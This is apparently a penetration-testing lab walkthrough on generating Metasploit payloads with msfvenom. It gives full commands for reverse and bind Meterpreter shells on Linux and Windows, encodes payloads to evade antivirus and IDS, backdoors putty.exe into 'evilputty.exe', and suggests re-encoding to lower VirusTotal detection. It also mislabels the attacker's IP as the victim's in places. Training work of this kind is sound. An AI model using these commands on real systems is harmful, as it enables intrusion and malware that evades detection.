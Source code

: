 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to create Metasploit payloads using Msfvenom.

**Lab Purpose:**

Msfvenom is a command line instance of Metasploit that is used to generate payloads and can also encode them.

The Metasploit framework is a powerful tool which can be used to probe systematic vulnerabilities on networks and servers. It provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

**Lab Tool:**

Kali Linux VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

Both msfvenom and metasploit come pre-installed on Kali. We can view the help screen for both tools by typing the following into our terminal:

msfvenom

msfconsole

In this lab, we will be learning how to generate payloads which can be transferred to a target and used to establish a shell on that target through Metasploit.

### Task 2:

This is an easy tool to use as its syntax is the same no matter the payload being created. The general syntax for this tool looks like the following:

msfvenom -p LHOST= LPORT=

It’s as simple as that. I will list some examples of common payloads below and explain them so that you get an understaning of how to create payloads of your own.

We can view all payload options by typing the following command:

![msfvenom](attachements/msfvenom-1.png)

msfvenom -p linux/x86/meterpreter/reverse_tcp –list-options

Payload 1 – Used for getting a reverse meterpreter shell on a Linux Metasploitable target machine. Assume that our Kali IP address is 192.168.56.103 in this instance:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=5555 -f elf > example.elf

![msfvenom](attachements/msfvenom.png)

Also, we can understand what type of executable is created by using the “file” command.

Let’s break this command down:

- -p specifies the payload we wish to use, this is specified in the following format: OS (Linux)/Arch (x86)/Type of shell (Meterpreter)/Type of connection (Reverse)
- LHOST is the IP address which we want our target to connect back to (our attack machine which is Kali VM)
- LPORT is the port we want our target to connect to our machine through
- -f is the file type we wish to create, in this case elf
- > specifies what we want our payload to be called

Payload 2 – Same as above, but now, we are using it to get a reverse meterpreter shell on a Windows target:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.123

![meterpreter shell](attachements/meterpreter_shell.png)

LPORT=443 -f exe -o shell.exe

Assume that our victim Windows machine’s IP address is 192.168.56.123 in this instance.

We can understand what type of executable is created by using the “file” command.

The difference between this payload and the first payload is that we are generating an EXE file instead of an ELF file.

Payload 3 – Used for getting a bind meterpreter shell on a Linux target:

msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=5555 -f elf >

![meterpreter shell](attachements/meterpreter_shell-1.png)

example.elf

We can understand what type of executable is created by using the “file” command.

The command to generate this payload is different as we are generating a bind shell. This means that our target will listen for us to connect to it, instead of our target connecting back to use. Therefore, we do not need to supply an IP address for this command as the target will not be connecting to anything.

### Task 3:

We will now look at encoding a payload. Encoding can be used to help evade IDS and Antivirus solutions, so that our payload is not caught and quarantined before we can establish a shell on our target. Encoding a payload is very easy. We can view all available encoders by typing the following:

msfvenom -l encoders

![msfvenom -l](attachements/msfvenom_-l.png)

Encoded payload example:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.123

![msfvenom](attachements/msfvenom-2.png)

LPORT=443 -e x86/shikata_ga_nai -f exe -o payload.exe

Assume that our victim Windows machine’s IP address is 192.168.56.123 in this instance;

The -e option is used to specify the type of encryption we want to encrypt our payload with. In this case, we have chosen the x86/shikata_ga_nai enctyption option for our payload.

### Task 4:

Finally, we can also create payloads using templates. This can be done with the following syntax:

msfvenom -p [payload] LHOST= LPORT= -x [template] -f [formattype] > outputfile

In this command, -x is used to specify the template we want to use. The following command is an example of creating a payload using the Putty template.

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.123  LPORT=443 -x putty.exe -f exe > evilputty.exe

![msfvenom](attachements/msfvenom-2.png)

Assume that our victim Windows machine’s IP address is 192.168.56.123 in this instance.

### Task 5:

Now, to practice! You can practice creating different payload types and trying to establish shells on your Windows or Metasploitable systems. We will be covering how to do this in the next few labs.

You should also experiment with encrypting your payload. You can upload your unencrypted payload to the following site to see the various different Antivirus’ which flag your file as a virus:

[www.virustotal.com](http://www.virustotal.com/)

![www.virustotal.com](attachements/www.virustotal.com.png)

![www.virustotal.com](attachements/www.virustotal.com-1.png)

Then, encrypt your payload and upload it again. Notice how some Antivirus engines do not pick up on the payload as a virus? Payloads can be encrypted multiple times to further reduce the risk of detection.